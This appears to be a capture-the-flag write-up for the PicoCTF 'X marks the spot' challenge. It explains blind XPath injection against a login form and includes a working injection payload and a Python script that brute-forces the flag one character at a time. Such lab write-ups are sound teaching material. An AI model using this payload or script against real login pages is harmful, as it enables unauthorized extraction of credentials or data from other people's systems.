


# PicoCTF (X marks the spot)

## Challenge: 


> The hint is XPATH.

## Solution:

The challenge requires us to use XPath injection to brute-force for the flag.

Going to the provided URL and giving wrong credentials, it showed us an error message "Login Failure". 


Next, I decided to research more on XPATH and came across the following from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction). 



Changing the above payload slightly to `' or //*[contains(.,"p")] or 'x'='`, this allows us to compare all the entries in the database with the character "p". The webpage now gave us an output "You're on the right path."


Now, I decided to write a Python script to brute force the flag.

```
import requests
import string

acceptable_chars = string.printable

url = "http://mercury.picoctf.net:53735/"

flag = "picoCTF{"

while "}" not in flag:
    for char in acceptable_chars:
        flag += char
        print(flag)
        name = f"""' or //*[contains(.,"{flag}")] or 'x'='"""
        pw = "irrelevant"
        creds = {"name": name, "pass": pw}
        x = requests.post(url, data=creds)
        if "on the right path." in x.text:
            continue
        else:
            flag = flag[:-1]
            print(flag)

print(flag)
```

Running the script, we got our flag! :')




